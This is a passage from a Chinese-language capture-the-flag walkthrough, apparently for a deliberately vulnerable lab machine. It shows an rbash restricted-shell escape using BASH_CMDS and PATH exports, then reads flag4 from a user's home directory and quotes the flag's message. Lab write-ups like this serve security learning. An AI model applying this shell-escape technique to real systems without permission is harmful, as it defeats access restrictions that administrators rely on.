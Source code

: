 >  
 提示内容如下 


<img src="https://img-blog.csdnimg.cn/d3bed084643641a88635838d610fca25.png" alt="在这里插入图片描述">

>  
 接下来，尝试rbash绕过 查看可以使用的命令 


```
echo $PATH

```

<img src="https://img-blog.csdnimg.cn/7f49e071cd9b410bb857be2bbecb3fb6.png" alt="在这里插入图片描述">

>  
 cd进不去目录 使用ls直接查看目录信息 


<img src="https://img-blog.csdnimg.cn/a6f0f6a86f08409aa5eb6e8f4638efe6.png" alt="在这里插入图片描述">

>  
 使用echo来绕过rbash 


```
BASH_CMDS[a]=/bin/sh;a
export PATH=$PATH:/bin/
export PATH=$PATH:/usr/bin
echo /*

```

<img src="https://img-blog.csdnimg.cn/825c27e4109e42beb87b039ab01b4b00.png" alt="在这里插入图片描述">

### 11、在jerry的家目录发现flag4

```
cd jerry
ls
cat flag4.txt

```

>  
 看到提示信息如下： 


```
Good to see that you've made it this far - but you " re not home yet .
很高兴看到你走了这么远，但你还没回家。
You still need to get the final flag (the only flag that really counts!!! ).
您仍然需要获得最后的标志(唯一真正重要的标志！)
No hints here 一you're on your own now. :- )
这里没有暗示，一，你现在只能靠自己了。*-)
Go on
继续
git outta here!!!!

```
